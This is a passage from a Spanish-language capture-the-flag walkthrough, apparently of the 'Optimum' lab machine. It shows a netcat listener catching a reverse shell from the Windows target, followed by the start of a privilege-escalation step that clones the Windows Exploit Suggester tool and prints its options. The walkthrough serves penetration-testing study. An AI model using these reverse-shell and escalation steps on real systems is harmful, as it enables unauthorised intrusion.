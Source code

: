 ```shell
> rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.8] 49196
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
whoami
optimum\kostas

C:\Users\kostas\Desktop>
```

## Escalada de Privilegios

Ahora nos falta escalar de privilegios al usuario **administrador**

Con la herramienta **windows-exploit-suggester.py** a partir de la informacion del `systeminfo` conseguira decirnos vias potenciales para escalar privilegios

```shell
> git clone https://github.com/bitsadmin/wesng
> cd wesng
```

* Opciones de `windows-exploit-suggester.py`

```shell
> python3 wes.py
usage: wes.py [-u] [--definitions [DEFINITIONS]] [-p INSTALLEDPATCH [INSTALLEDPATCH ...]] [-d] [-e]
              [--hide HIDDENVULN [HIDDENVULN ...]] [-i IMPACTS [IMPACTS ...]]
              [-s SEVERITIES [SEVERITIES ...]] [-o [OUTPUTFILE]] [--muc-lookup] [--os [OPERATING_SYSTEM]]
              [-c] [-h] [--update-wes] [--version] [-m [MISSINGPATCHES]] [-q [QFEFILE]]
              systeminfo

Windows Exploit Suggester 1.03 ( https://github.com/bitsadmin/wesng/ )

positional arguments:
  systeminfo            Specify systeminfo.txt file

optional arguments:
  -u, --update          Download latest list of CVEs
  --definitions [DEFINITIONS]
                        Definitions zip file (default: definitions.zip)
  -p INSTALLEDPATCH [INSTALLEDPATCH ...], --patches INSTALLEDPATCH [INSTALLEDPATCH ...]
                        Manually specify installed patches in addition to the ones listed in the
                        systeminfo.txt file
  -d, --usekbdate       Filter out vulnerabilities of KBs published before the publishing date of the most
                        recent KB installed
  -e, --exploits-only   Show only vulnerabilities with known exploits
  --hide HIDDENVULN [HIDDENVULN ...]
                        Hide vulnerabilities of for example Adobe Flash Player and Microsoft Edge
  -i IMPACTS [IMPACTS ...], --impact IMPACTS [IMPACTS ...]
                        Only display vulnerabilities with a given impact
  -s SEVERITIES [SEVERITIES ...], --severity SEVERITIES [SEVERITIES ...]
                        Only display vulnerabilities with a given severity
  -o [OUTPUTFILE], --output [OUTPUTFILE]
                        Store results in a file
  --muc-lookup          Hide vulnerabilities if installed hotfixes are listed in the Microsoft Update
                        Catalog as superseding hotfixes for the original BulletinKB
  --os [OPERATING_SYSTEM]
```